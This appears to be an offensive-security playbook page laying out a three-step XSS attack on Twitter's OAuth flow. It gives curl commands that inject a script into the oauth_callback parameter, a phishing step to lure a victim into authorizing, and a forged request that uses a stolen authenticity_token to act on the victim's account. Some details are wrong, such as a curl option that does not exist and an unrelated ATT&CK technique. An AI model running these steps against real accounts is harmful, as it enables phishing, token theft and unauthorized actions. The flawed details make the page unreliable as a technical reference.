

# Twitter OAuth XSS via Malicious Callback for Authenticity Token Theft and Unauthorized Actions

Multi-stage attack chain demonstrating a complete XSS exploit in Twitter's OAuth flow, allowing arbitrary JavaScript execution to steal sensitive tokens and perform unauthorized user actions.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]
- Browser for testing (e.g., Chrome Developer Tools)

### Target Environment

- Twitter.com and api.twitter.com services
- OAuth 1.0a enabled applications
- No special ports; web-based over HTTPS

### Initial Access Requirements

- Valid Twitter developer app credentials (consumer key/secret)
- Ability to craft HTTP requests
- Victim interaction (e.g., phishing link to authorize)

## Detailed Attack Procedures

### Step 1: Obtain Malicious Request Token
procedure: [[procedures/Obtain-Malicious-Request-Token-with-XSS-Callback]]

**Objective**: Acquire a request token with an injected XSS payload in the oauth_callback parameter to set up JavaScript execution on redirect.

**Instructions**: Use [[commands/curl-request-token-xss]] to send a request to the OAuth endpoint with a URL-encoded malicious callback:

```bash
curl -X POST 'https://api.twitter.com/oauth/request_token' \
  -d 'oauth_consumer_key=YOUR_CONSUMER_KEY' \
  -d 'oauth_signature_method=HMAC-SHA1' \
  -d 'oauth_timestamp=UNIX_TIMESTAMP' \
  -d 'oauth_nonce=RANDOM_NONCE' \
  -d 'oauth_version=1.0' \
  -d 'oauth_callback=javascript%3A%2F%2F%22%3E%3Cscript%3Ealert(document.domain)%3C%2Fscript%3E' \
  --oauth-signature 'GENERATED_SIGNATURE'
```

**Expected Output**: Response containing oauth_token and oauth_token_secret for the malicious token.

**Success Indicators**:
- oauth_token received without errors
- Payload encoding confirmed via response inspection

### Step 2: Redirect Victim to Authorize Endpoint
procedure: [[procedures/Redirect-Victim-to-Authorize-Endpoint]]

**Objective**: Lure the victim to the authorization page using the malicious token, triggering the OAuth flow.

**Instructions**: Construct and send a phishing link to the victim pointing to the authorize endpoint with the malicious token, e.g., https://twitter.com/oauth/authorize?oauth_token=MALICIOUS_TOKEN. No command execution needed here; monitor for victim click.

**Expected Output**: Victim lands on Twitter's authorize page and grants permission.

**Success Indicators**:
- Victim accesses the link
- Authorization completes, triggering redirect

### Step 3: Execute XSS Payload and Steal Token
procedure: [[procedures/Execute-XSS-Payload-and-Steal-Authenticity-Token]]

**Objective**: Upon authorization, execute the injected JavaScript to steal the authenticity_token and perform CSRF actions like favoriting a tweet.

**Instructions**: The payload executes automatically on redirect. For advanced PoC, use a dangling markup bypass (e.g., via https://innerht.ml/pocs/twitter-oauth-xss/csrf.php) to exfiltrate the token and submit a CSRF request:

```bash
curl -X POST 'https://twitter.com/i/tweet/favorite' \
  -d 'authenticity_token=STOLEN_TOKEN' \
  -d 'id=TARGET_TWEET_ID' \
  -H 'Cookie: auth_token=YOUR_SESSION_COOKIE'
```

**Expected Output**: JavaScript alert pops (basic PoC) or token exfiltrated; tweet favorited without permissions.

**Success Indicators**:
- Script execution confirmed (alert or network request)
- Unauthorized action performed (e.g., tweet favorited)

## Attack Chain Summary

### Key Achievements

1. Injected XSS payload into OAuth callback without detection
2. Executed arbitrary JS in victim context to steal authenticity_token
3. Bypassed CSP via dangling markup for CSRF exploitation

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Cloud Instance Metadata API]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
